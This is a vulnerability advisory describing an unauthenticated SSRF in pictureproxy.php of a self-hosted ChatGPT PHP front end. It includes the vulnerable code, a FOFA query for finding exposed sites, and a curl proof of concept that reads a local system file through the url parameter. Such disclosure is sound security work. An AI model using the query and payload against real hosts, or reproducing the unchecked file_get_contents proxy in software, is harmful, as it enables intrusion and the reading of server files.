

### Description
A Server-Side Request Forgery (SSRF) in pictureproxy.php file of [chatgpt](f9f4bbc) allows remote attackers to force the application to make 
arbitrary requests via injection of arbitrary URLs into the url parameter. It should be noted that this vulnerability can be triggered without 
the need for authentication and is therefore more harmful.The vulnerable code is located in the pictureproxy.php file. Because the function does 
not perform sufficient checksumming on the url parameterthe taint is introduced from the $_GET['url'] variable into the tainted function 
file_get_contents , and after the file_get_contents function is executed it sends a request to the URL specified by the url parameter, eventually leading to an SSRF vulnerability.

### FOFA 
```bash
"title=\"ChatGPT个人专用版\""
```
### Proof of concept
```bash
<?php
if (isset($_GET['url'])) {
    $image = file_get_contents($_GET['url']);
    header("Content-type: image/jpeg");
    echo $image;
} else {
    echo "Invalid request";
}
```
```bash
curl -i -s -k http://127.0.0.1/pictureproxy.php?url=file:///etc/password
```

### Tested with openredirect
```bash
https://64.media.tumblr.com/f07b73b374dc2ff6d5e4dbf39d2a6467/tumblr_nvani31DCm1u5url1o1_1280.jpg
```

